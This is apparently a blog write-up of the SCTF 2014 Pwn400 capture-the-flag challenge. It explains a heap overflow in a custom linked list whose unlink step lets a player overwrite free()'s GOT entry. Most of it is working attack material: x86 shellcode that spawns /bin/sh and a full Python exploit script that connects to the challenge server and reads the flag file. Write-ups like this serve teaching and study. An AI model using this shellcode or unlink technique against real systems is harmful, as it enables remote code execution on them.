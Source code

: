 ```yaml
---
title: SCTF 2014 -- Pwn400
layout: single
comments: true
share: true
related: true
author_profile: true
permalink: "/:title/"
tags:
- Pwnable
- XCTF
- SCTF
- Python
- CTF
- heap
- shellcode
categories:
- write-ups
date: '2014-12-08 14:54:00 +0000'
---
```


Similar with Pwn200, Pwn400 gave us a binary file, but no libc.so. Open it with IDA Pro and analyze it, we found some information:
<!-- more -->

First, there's a data structure ( let's call it **node** ) which look like this:

```c
struct node{
  node *this; // the address of this node
  node *prev; // the address of the previous node
  node *next; // the address of the next node
  char title[64];
  char type[32];
  char content[256];
};

```
In this program, we're allow to:
1. New a node
2. Show a node's address ( yep, no need to leak it! )
3. Edit a node's content
4. Delete a node (by giving its address)

Notice that **we can ovewrite a node's data by overflowing its previous node's content**. Moreover, after checking the function of deleting a node, we found the following code:

``` c 
if ( *(_DWORD *)ptr == ptr )
{
    if ( *(_DWORD *)a1 == ptr )
    {
        *(_DWORD *)a1 = *(_DWORD *)(*(_DWORD *)a1 + 8);
    }
    else
    {
        if ( *(_DWORD *)(ptr + 8) )
        {
            /* the unlink vulnerability */
            v1 = *(_DWORD *)(ptr + 8);
            v2 = *(_DWORD *)(ptr + 4);
            *(_DWORD *)(v2 + 8) = v1;
            *(_DWORD *)(v1 + 4) = v2;
        }
        else
        {
            *(_DWORD *)(*(_DWORD *)(ptr + 4) + 8) = 0;
        }
    }
    write(1, "succeed!\n\n", 0xAu);
    free((void *)ptr);
}

```

The vulnerability's obvious: **Heap overflow**, except it use its own data structure.

Since it doesn't enable the DEP protection, we can store our shellcode in a known memory address (**which is, in this case, a node's content**), then exploit the heap overflow vulnerability, by overwriting `free()`'s GOT, let the function pointer point to our shellcode. 

For instance:
``` c
//free's GOT entry: 0x0804a450
v1 = node->next // 0x0804a44c, because 0x0804a44c+4 = 0x0804a450  
v2 = node->prev // shellcode's address
*(_DWORD *)(shellcode's address + 8) = 0x0804a44c ; //4 bytes of shellcode will be overwritten
*(_DWORD *)(0x0804a450) = shellcode's address; // overwrite free()'s GOT

```

Note that 4 bytes in shellcode will be overwritten, so we'll have to use `jmp relative` to skip those 4 bytes machine code. Here's my shellcode:

``` python
"\x90\x90\x90\x90\x90\x90"+ # NOP
"\xeb\x08"+ # skip 8 bytes
"AAAA"+ # overwritten part
"\x90"*10+ # NOP
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x59\x50\x5a\xb0\x0b\xcd\x80" # shell
```

So here's the exploitation:
1. New 3 nodes: node1, node2 & node3
2. Store the shellcode in node3's content
3. Get the address of node3 & node2, calculate the shellcode's address
4. Edit node1, overwrite node2's prev & next by overflowing node1's content
5. Delete node2, overwrite `free()`'s GOT,  execute the shellcode & capture the flag
    
Here's the python script. Due to the connection problem, it has to wait 1 second before it recieve server's response.

``` python
from socket import *
import time
import binascii

sock = socket(AF_INET, SOCK_STREAM)
sock.connect(("218.2.197.248", 10003))

shell = "\x90\x90\x90\x90\x90\x90"+"\xeb\x08"+"AAAA"+"\x90"*10+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x59\x50\x5a\xb0\x0b\xcd\x80"

print sock.recv(1024)

#insert node1
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)

#insert node2
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send("2\n")
time.sleep(1)
print sock.recv(1024)
sock.send("2\n")
time.sleep(1)
print sock.recv(1024)
sock.send("2\n")
time.sleep(1)
print sock.recv(1024)

#insert node3
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send("3\n")
time.sleep(1)
print sock.recv(1024)
sock.send("3\n")
time.sleep(1)
print sock.recv(1024)
sock.send(shell+"\n") #write shellcode to node3's content
time.sleep(1)
print sock.recv(1024)

#show node 3 address
sock.send("3\n")
time.sleep(1)
print sock.recv(1024)
sock.send("3\n")
time.sleep(1)
res = sock.recv(1024)
print res

#calculate shellcode's address
index = res.index("0x")
temp = res[index:index+10:]
shellcode_addr = int(temp, 16)+108
print "shellcode address: ", hex(shellcode_addr)
shellcode_addr_str = binascii.a2b_hex(hex(shellcode_addr)[2:10:].zfill(8))
print shellcode_addr_str

#show node 2 address
sock.send("3\n")
time.sleep(1)
print sock.recv(1024)
sock.send("2\n")
time.sleep(1)
res = sock.recv(1024)
print res

index = res.index("0x")
temp = res[index:index+10:]
address = int(temp, 16)
del_addr = hex(address)[2::]
print "node2 address:", del_addr
node2_addr_str = binascii.a2b_hex(hex(address)[2:10:].zfill(8))
print node2_addr_str 

#BBBB: offset
#free()'s GOT: 0x0804a450, we send 0x0804a44c
exploit = "A"*256+"BBBB"+node2_addr_str[::-1]+shellcode_addr_str[::-1]+"\x4c\xa4\x04\x08"

#edit node 1
sock.send("4\n")
time.sleep(1)
print sock.recv(1024)
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send(exploit+"\n") #overflow node1's content
time.sleep(1)
print sock.recv(1024)

#delete node 2
sock.send("5\n")
time.sleep(1)
print sock.recv(1024)
sock.send(del_addr+"\n")
time.sleep(1)
print sock.recv(1024)

sock.send('cat /home/pwn3/flag/flag\n') #capture the flag
time.sleep(1)
print sock.recv(1024)

sock.close()
```

The "BBBB" in the exploit is a 4 bytes data between each node. It actually is the meta data of a chunk. The `free()` function will check the meta data before it free the memory of a node. If the meta data isn't correct, the program will crash. But since we overwrite `free()`'s GOT, that meta data's no longer a problem.

flag: `SCTF{2318540E78446A0E84EF69685092F0C3}`
